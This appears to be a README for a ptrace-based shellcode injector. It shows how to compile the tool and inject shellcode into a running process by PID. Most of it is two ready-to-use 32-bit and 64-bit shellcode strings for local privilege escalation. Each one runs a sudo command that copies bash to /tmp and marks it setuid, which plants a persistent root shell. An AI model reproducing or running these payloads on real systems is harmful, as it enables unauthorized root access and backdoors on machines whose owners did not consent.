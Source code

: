 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### Local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```
